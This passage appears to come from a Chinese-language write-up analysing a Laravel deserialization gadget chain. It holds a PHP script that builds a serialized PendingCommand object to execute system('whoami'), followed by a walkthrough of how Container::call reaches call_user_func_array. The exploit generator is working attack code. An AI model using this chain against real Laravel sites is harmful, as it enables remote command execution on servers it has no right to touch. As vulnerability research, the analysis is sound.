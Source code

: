             }
        }
    }
    
    namespace Illuminate\Foundation{
        class Application{
            protected $instances = [];
            public function __construct($instances = [])
            {
                $this->instances['Illuminate\Contracts\Console\Kernel'] = $instances;
            }
        }
    }
    
    namespace {
        $genericuser = new Illuminate\Auth\GenericUser(
            array(
                //这里需要两次使用来循环获得以便成功跳过方法,两次键名分别为expectedOutput和expectedQuestions
                "expectedOutput"=>array("crispr"=>"0"),
                "expectedQuestions"=>array("crispr"=>"1")
            )
        );
        $app = new Illuminate\Foundation\Application();
        //通过如下步骤最终获得的$this->app[Kernel::class]就是该Application实例
        $application = new Illuminate\Foundation\Application($app);
        $pendingcommand = new Illuminate\Foundation\Testing\PendingCommand(
            $genericuser,
            $application,
            "system",
            array("whoami")
       );
        echo urlencode(serialize($pendingcommand));
    }

选择application类的理由：
此时的$this和instances均为application类，此时赋值给$this->app[Kernel::class]，在继续调用call方法时，由于application类没有call方法，根据特性会寻找其父类也就是Container类的call方法:

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210419215106.png)

此时$callback为system而$parameters为whoami，继续跟进：、

    public static function call($container, $callback, array $parameters = [], $defaultMethod = null)
        {
            if (static::isCallableWithAtSign($callback) || $defaultMethod) {
                return static::callClass($container, $callback, $parameters, $defaultMethod);
            }
    
            return static::callBoundMethod($container, $callback, function () use ($container, $callback, $parameters) {
                return call_user_func_array(
                    $callback, static::getMethodDependencies($container, $callback, $parameters)
                );
            });
        }
